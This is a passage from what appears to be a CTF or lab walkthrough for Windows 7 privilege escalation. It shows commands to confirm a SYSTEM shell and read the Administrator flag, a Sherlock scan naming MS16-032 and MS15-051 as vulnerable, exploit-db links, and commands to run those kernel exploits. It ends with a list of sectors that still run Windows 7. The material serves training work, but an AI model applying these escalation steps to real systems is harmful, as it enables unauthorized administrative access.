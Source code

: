 #### 5. Flag Retrieval
```cmd
# In the new SYSTEM cmd console:
whoami
# Output: nt authority\system

# Get Administrator flag:
type C:\Users\Administrator\Desktop\flag.txt

# Expected result: Flag content displayed
```

## 🔄 Alternative Exploitation Methods

### Sherlock Alternative
```powershell
# Use Sherlock instead of Windows-Exploit-Suggester:
Import-Module .\Sherlock.ps1
Find-AllVulns

# Common Windows 7 findings:
MS16-032 - Secondary Logon Handle - Appears Vulnerable
MS15-051 - ClientCopyImage Win32k - Appears Vulnerable
MS14-058 - TrackPopupMenu Win32k - Not Vulnerable
```

### Manual Exploit Compilation
```cmd
# Download standalone exploits from exploit-db:
# MS16-032: https://www.exploit-db.com/exploits/39719/
# MS15-051: https://www.exploit-db.com/exploits/37367/

# Compile and execute:
# .\ms16-032.exe
# .\ms15-051.exe "cmd.exe"
```

## 🏢 Business Context Considerations

### Legacy System Scenarios
```cmd
# Common Windows 7 use cases:
- Point of Sale (POS) systems in retail
- Medical equipment control systems  
- Manufacturing floor computers
- Legacy application dependencies
- Embedded systems in transportation
- Government workstations
- Educational institution labs
```

